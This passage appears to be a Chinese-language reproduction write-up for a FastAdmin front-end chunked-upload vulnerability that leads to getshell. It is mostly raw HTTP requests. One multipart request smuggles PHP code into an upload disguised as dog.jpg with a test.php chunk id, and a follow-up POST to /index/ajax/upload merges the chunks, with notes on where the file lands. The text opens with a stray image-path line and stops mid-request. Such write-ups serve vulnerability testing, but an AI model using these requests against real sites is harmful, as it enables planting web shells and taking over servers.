     ------WebKitFormBoundaryurpjX18wIurjSyEp
    Content-Disposition: form-data; name="file"; filename="dog.jpg"
    Content-Type: application/octet-stream
    
    <?php phpinfo(); ?>
    ------WebKitFormBoundaryurpjX18wIurjSyEp
    Content-Disposition: form-data; name="chunkid";
    
    test.php
    ------WebKitFormBoundaryurpjX18wIurjSyEp
    Content-Disposition: form-data; name="chunkindex";
    
    0
    ------WebKitFormBoundaryurpjX18wIurjSyEp--

上传成功之后，会在网站路径

C:\\phpstudy\_pro\\WWW\\fastadmin\\runtime\\chunks下生成一个test.php-0.part文件

![](FastAdmin%E5%89%8D%E5%8F%B0%E5%88%86%E7%89%87%E4%BC%A0%E8%BE%93%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6getshell%E5%A4%8D%E7%8E%B0/5_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

发送数据包（需要注意图中几处红框的内容）

返回包显示200则代表合并成功  
 

![](FastAdmin%E5%89%8D%E5%8F%B0%E5%88%86%E7%89%87%E4%BC%A0%E8%BE%93%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6getshell%E5%A4%8D%E7%8E%B0/6_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

    POST /index/ajax/upload HTTP/1.1
    Host: tets.test
    Content-Length: 42
    Accept: application/json
    Cache-Control: no-cache
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
    Content-Type: application/x-www-form-urlencoded
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=mm4ejed8h7hubqq1stmogrut20; think_var=zh-cn; uid=2; token=f5a57bef-2ad2-496a-a4bc-66974bcc4a08
    Connection: close
    